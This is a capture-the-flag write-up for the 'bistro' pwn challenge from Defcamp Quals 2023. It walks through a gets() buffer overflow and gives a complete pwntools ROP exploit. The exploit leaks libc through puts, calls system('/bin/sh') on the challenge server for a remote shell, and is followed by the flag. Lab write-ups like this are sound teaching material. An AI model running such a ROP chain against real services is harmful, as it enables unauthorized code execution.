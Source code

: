 ```yaml
---
title: bistro
date: 2023-10-22T09:56:31+03:00
description: Writeup for bistro [Defcamp Quals 2023]
type: writeup
author: sunbather
tags:
  - pwn
draft: false
---
```


___

## Challenge Description

Maybe you can get a free menu!!

Flag format: CTF{sha256}

### Intuition

Checksec the binary to see what we have.

```
$ checksec restaurant
LIBC_FILE=/lib/x86_64-linux-gnu/libc.so.6
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   70 Symbols	  No	0		2		restaurant
```
Partial RELRO and no PIE. Great! Let's decompile:

```c
undefined8 custom(void)
{
  char local_78 [112];
  
  printf("Choose what you want to eat:");
  gets(local_78);
  gets(local_78);
  return 0;
}

undefined8 main(EVP_PKEY_CTX *param_1)
{
  int local_c;
  
  init(param_1);
  puts("==============================");
  puts("              MENU             ");
  puts("==============================");
  puts("1. Chessburger...............2$");
  puts("2. Hamburger.................3$");
  puts("3. Custom dinner............10$");
  printf(">> ");
  __isoc99_scanf(&DAT_0040098c,&local_c);
  if (local_c == 2) {
    puts("2. Hamburger.................3$");
  }
  else {
    if (local_c == 3) {
      custom();
    }
    else if (local_c == 1) {
      puts("1. Chessburger...............2$");
      return 0;
    }
    puts("Wrong choice");
  }
  return 0;
}
```
We see an obvious buffer overflow in ``custom``. We simply need to ROP into leaking the libc addresses with puts.


### Solution

```py
#!/usr/bin/env python3

from pwn import *

#target = process("./restaurant")
target = remote("35.198.129.115", 31756)

# Get addresses with ROPGadget
pop_rdi = p64(0x00000000004008a3)
ret = p64(0x000000000040059e) # for aligning stack to 16-bytes again for system call

# Addresses from the binary
main_addr = p64(0x0040072a)
puts_plt = p64(0x004005b0)
puts_got = p64(0x00601018)

# Leak puts address
target.sendline(b"3")
payload = b"a" * 0x78 + pop_rdi + puts_got + puts_plt + main_addr # go back to main for more inputs
target.sendline(payload)
print(target.recvuntil(b">>"))
puts_leak = u64(target.recvline().strip().split(b':')[1].ljust(8, b'\x00'))
print(puts_leak)
print(hex(puts_leak))

# Find the libc version at some point here manually

system_addr = p64(puts_leak - 0x31550) # offset found in libc database
print(system_addr)

# Get offset to /bin/sh from libc database
sh_addr = p64(puts_leak + 0x13337a)

payload = b"a" * 0x78 + ret + pop_rdi + sh_addr + system_addr

# Pop a shell, baby
target.sendline(payload)
target.interactive()
```

#### Flag

```CTF{33be4238b68642a4c3f97d10cfa034764e0b6d9707d6970f581200e2b7bcbfc0}```
